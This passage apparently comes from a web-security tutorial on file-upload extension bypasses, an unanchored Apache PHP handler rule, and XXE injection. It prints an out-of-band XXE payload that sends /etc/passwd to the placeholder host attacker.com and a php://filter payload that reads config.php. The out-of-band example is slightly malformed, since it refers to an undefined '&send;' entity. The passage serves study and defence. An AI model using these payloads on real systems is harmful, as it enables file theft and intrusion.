 This pattern only checks if the file name _contains_ certain extensions. A crafted file like `backdoor.php.jpg` could bypass this check. How to fix:

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
```

**Web Server Configuration**
- Even with proper validation, web server configurations can open vulnerabilities. It’s essential to use `$` in regex patterns to enforce exact matches. Without anchoring `$` at the end, files like `shell.php.jpg` could match and execute.
- For example, Apache’s configuration:

```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

**Character**
Certain characters can bypass validation by injecting unexpected sequences:
- `%20` (space), `%0a` (newline), `%00` (null byte)
- `...` (path traversal), `:` (Windows drive specification)

### OOB XXE (Out-of-Band XML External Entity Injection)
- Leverage the behavior of an XML parser configured to allow external entity loading, even if no immediate response data is available. These attacks can exfiltrate data over different protocols and are often used when a direct error response or output is unavailable.
- Works regardless of XXE type (blind, non-blind, or error-based).
- Can be effective for transmitting data out of restrictive environments without relying on a visible response.
- Example

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
	<!ENTITY % remote SYSTEM "http://attacker.com/?data=file:///etc/passwd">
	%remote;
]>
<root>&send;</root>
```

**Entity Overwrite** techniques manipulate parameter entities within DTDs to redefine standard entity references, often used when side-channel exfiltration isn’t feasible.
- Exploits the XML specification’s allowance for using external Document Type Definitions (DTDs), letting attackers inject or modify entities directly in the XML declaration.
- This enables references to internal or sensitive files (e.g., `/etc/passwd` or application configuration files) without relying on external connections.
- Instead of referencing an external DTD over HTTP, attackers can use **php://** wrappers to manipulate local resources directly or encode output.
- Example using the `php://filter` wrapper

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
	<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=config.php">
	%data;
]>
<root>&data;</root>
```
